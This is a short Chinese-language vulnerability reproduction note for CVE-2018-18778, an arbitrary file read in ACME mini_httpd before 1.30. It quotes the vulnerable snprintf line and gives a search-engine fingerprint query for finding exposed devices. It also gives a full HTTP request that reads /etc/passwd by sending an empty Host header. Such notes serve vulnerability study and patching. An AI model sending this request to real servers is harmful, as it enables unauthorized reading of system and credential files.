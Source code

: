 # ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

```
ACME mini_httpd before 1.30
```

## 网络测绘

```
app="ACME-mini_httpd"
```

## 漏洞复现

指纹信息

![](./images/202205251634254.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![](./images/202205251635832.png)